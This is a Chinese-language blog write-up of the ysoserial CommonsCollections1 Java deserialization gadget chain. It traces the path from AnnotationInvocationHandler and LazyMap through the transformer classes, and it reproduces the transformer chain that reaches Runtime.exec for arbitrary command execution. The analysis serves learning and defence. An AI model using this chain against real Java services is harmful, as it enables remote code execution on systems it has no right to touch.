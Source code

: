 ```yaml
---
title: ysoserial-CommonCollections1
categories:
 - ysoserial
tags:
- ysoserial
- 反序列化

---
```


ysoserial-CommonCollections1利用链分析

# 环境

`jdk 1.7`

`Commons Collections 3.1`

# 利用链分析

CommonsCollections1类描述

```
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
```

## Way to LazyMap

ysoserial中使用的LazyMap和TransformedMap的区别是TransformedMap是在写入元素的时候执行transform，而LazyMap是在其get方法中执行的 factory.transform，因此我们要找到一条到LazyMap.get()的链

![image-20210417220658515](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417220658515.png)

在AnnotationInvocationHandler.invoke()中调用了get()，这里invoke()又可以通过对象代理来调用。AnnotationInvocationHandler是一个InvocationHandler，我们如果将这个对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到 invoke 方法中，进而触发我们的LazyMap.get()  

在ysoserial实现的方法如下

```java
final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
```

## LazyMap

这里分析一下LazyMap.get()的作用

`final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);`

```java
public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}
```

```Java
public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```

这里的get中的this.factory.transform(key)实际上就调用了transformerChain.transform(key)，这个key为什么不影响，重要的是进入ChainedTransformer.transform()下面分别分析下几个重要的类的作用。

## ChainedTransformer

```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}

public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串在⼀起。在transform方法中前⼀个回调返回的结果，作为后⼀个回调的参数传⼊

在调试的调用栈中，我们可以看到this.iTransformers中有一下几个类，所以接下来分析一下ConstantTransformer和InvokerTransformer

![image-20210417223322451](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417223322451.png)

## ConstantTransformer

```java
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
```

ConstantTransformer是实现了Transformer接⼝的⼀个类，它的过程就是在构造函数的时候传⼊⼀个对象，并在transform⽅法将这个对象再返回 ，前面提到key不影响的原因就是这个input不影响返回对象。

## InvokerTransformer

InvokerTransformer是实现了Transformer接⼝的⼀个类，这个类可以⽤来执⾏任意⽅法，这也是反序列化能执⾏任意代码的关键。

在实例化这个InvokerTransformer时，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表 

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
## 命令执行

我们来看看这段代码是如何执行命令的

```java
final Transformer transformerChain = new ChainedTransformer(
    new Transformer[]{ new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };
```

```
1.Runtime.class是第一个元素对象调用transform方法的返回值
2.(Runtime.class).getMethod("getRuntime",null)的结果是第二个元素对象调用transform方法的返回值
3.((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)的结果是第三个元素对象调用transform方法的返回值
4.(((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)).exec(execArgs)的结果是第四个元素对象调用transform方法的返回值。这个结果就是执行了execArgs。
5.ConstantTransformer(1)按照P神的说法是隐藏异常日志中的一些信息
```

## 小结

这篇文章因为从正向分析，不利于理解，适合已经了解该利用链基本原理的读者对利用链进行一个梳理。ysoserial中的CommonCollections1实现巧妙的用到了对象代理来调用invoke。之前在有的文章中看到在高版本的jdk中无法调用cc1是因为AnnotationInvocationHandler中的setValue方法被取消了，但是LazyMap从另一条利用链调用了transform依旧在高版本的jdk中失效了，在后续的文章中将其进行进一步的分析。

# 参考

[1] [Java安全漫谈-反序列化篇(3)~(5)](https://govuln.com/docs/java-things/)

[2] [Java反序列化（三）Common Collection 1分析](https://blog.csdn.net/qq_41918771/article/details/115242949)
